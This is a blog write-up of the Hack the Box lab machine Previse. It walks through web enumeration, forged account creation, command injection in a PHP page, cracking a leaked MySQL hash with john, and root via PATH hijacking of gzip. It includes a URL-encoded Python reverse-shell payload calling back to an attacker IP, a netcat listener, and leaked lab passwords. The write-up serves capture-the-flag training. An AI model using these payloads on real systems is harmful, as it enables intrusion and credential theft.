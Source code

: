 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
date = 2022-01-08T15:16:55Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/previse.png"
slug = "hack-the-box-previse"
tags = ["hack the box", "Linux", "easy", "burpsuite", "command injection", "gobuster", "mysql", "john", "path hijacking"]
title = "Hack the Box - Previse"

+++


Welcome back! Today's Hack the Box write-up is for the machine Previse. This machine is listed as an easy Linux machine. Let's get to it!

As usual, we start with a full `nmap` scan. Here are our results.

```
Nmap scan report for 10.10.11.104
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two ports available, so it looks like our path with be via web exploit of some type. So we'll load up `Burpsuite` and see what's being hosted on port 80.

We see that a basic username / password landing page. Before we start digging into the web requests, we'll try to enumerate any additional files or directories with `gobuster`. 

Command:
`gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

![](/images/2021/08/image-37.png)

We see a bunch of files. We check them all and find the `nav.php` has some interesting links.

![](/images/2021/08/image-38.png)

When trying to access all of these resources, we need an account. Luckily for us, we have a create account page! However, the page isn't accessable via the browser. When we view the `HTTP` request, we see that is actually something we can access.

![](/images/2021/08/image-39.png)

Given that we can see the source for this request, we know the parameters we need to `POST` in order to create an account.

![](/images/2021/08/image-40.png)

So we will craft the request we need to supply a `username`, `password` and `confirmation` password. We also need to be sure to add our `Content-Type` of `application/x-www-form-urlencoded`. All together, we have the following request.

![](/images/2021/08/image-41.png)

We send the request and we get back a success message!

![](/images/2021/08/image-42.png)

We can now log into the site. When we start looking around we find the file `SITEBACKUP.ZIP` in the files section. We download the file and unzip it to find exactly what we think, a backup of the site. We see in `config.php` a username and password.

![](/images/2021/08/image-43.png)

We still need a username to go with the password. Now, if we look around the site a bit more we have a Request Log Data section. If we download the file, we can see the users associated to logging in, this could give us a user to `SSH` with.

![](/images/2021/08/image-44.png)

Unable to login with those credentials. Now as we continue to sift through the files, we find a gem. A `Python exec()` call in the `logs.php` file.

![](/images/2021/08/image-45.png)

This is not a properly sanatized output, meaning we can leverage it to break things. More on [Command Injection here](https://portswigger.net/web-security/os-command-injection).

The key thing to remember here is that `Python` is calling the `exec()` function. So any injection we want to do, has to be in 'code'. More on that [here](https://www.stackhawk.com/blog/command-injection-python/).

We will use a `python` 'one-liner' to gain a remote shell. Take your pick from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Just be to use URL encode the request!

Here's our request data being sent.

```
delim=comma;python3+-c+'a%3d__import__%3bs%3da("socket")%3bo%3da("os").dup2%3bp%3da("pty").spawn%3bc%3ds.socket(s.AF_INET,s.SOCK_STREAM)%3bc.connect(("10.10.14.99",4242))%3bf%3dc.fileno%3bo(f(),0)%3bo(f(),1)%3bo(f(),2)%3bp("/bin/bash")'
```
We sping up a `netcat` listener on port `4242`.

Command:
`nc -lvnp 4242`

Now ww send our request (a few times), and eventually get a response back on our `netcat` listener

![](/images/2021/08/image-46.png)

Before we start enumerating any further, we should check to see if we have `mysql` access. We have credentials from before that we should try to leverage and see what we have access to.

Command:
`mysql -u root -p'mySQL_p@ssw0rd!:)'`

![](/images/2021/08/image-47.png)

Sure enough, we have access! Now we can start sifting through the database.

Commands:
```
use previse;
show tables;
select * from accounts;
```

![](/images/2021/08/image-48.png)

Now we see our username and hashes. We'll copy them out to crack, we really just want `m4lwhere` in particular.

Command:
`echo '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' > m4lwhere.hash`

Now we can run it against `rockyou.txt` to see what we might be able to find. In this case I'll use `john`.

Command:
`john -w=/usr/share/wordlists/rockyou.txt m4lwhere.hash --format=md5crypt-long`

![](/images/2021/08/image-49.png)

A few minutes later we get a match `ilovecody1122235!`. Now let's see if we can `SSH` with this password.

![](/images/2021/08/image-50.png)

Sure enough, we are in! Let's snag our `user.txt` flag and find a way to root! The next thing we check is `sudo -l`.

![](/images/2021/08/image-51.png)

It looks like we have the ability to run a backup script.

![](/images/2021/08/image-52.png)

The problem with this script is that its just saying `gzip`. It's not giving a specific path to `gzip`. This is `Path Hijacking` and it's the reason why you should ensure your paths are explicit and narrow as can be. What we'll do is create our own `gzip` file. This will just be a simple file to `cat` our the `root.txt` flag.

Step one - create a file in a temporary directory in `tmp`. We do it this way so that we don't ruin the box for others. 

Command:
`mkdir /tmp/rf`
`cd /tmp/rf`

Step two - create our 'malicous' `gzip` file.

Command:
`echo 'cat /root/root.txt > /tmp/rf/flag.txt' > gzip`
`chmod +x gzip`

Step three - we will add our temporary path to the enviornmental variables.

Command:
`export PATH=/tmp/rf:$PATH`

You can see that our temporary path has been pre-pended to our `PATH`. This means that the Linux Operating System will check this path before all others for any executable we are running. In this case, the evil `gzip` file.

Now we simply run our privledged script.

Command:
`sudo /opt/scripts/access_backup.sh`

![](/images/2021/08/previseroot.gif)

We get a text file with the `root.txt` flag inside! Feel free to send respect my way if you found this write-up helpful.

HTB Profile - https://app.hackthebox.eu/profile/95635



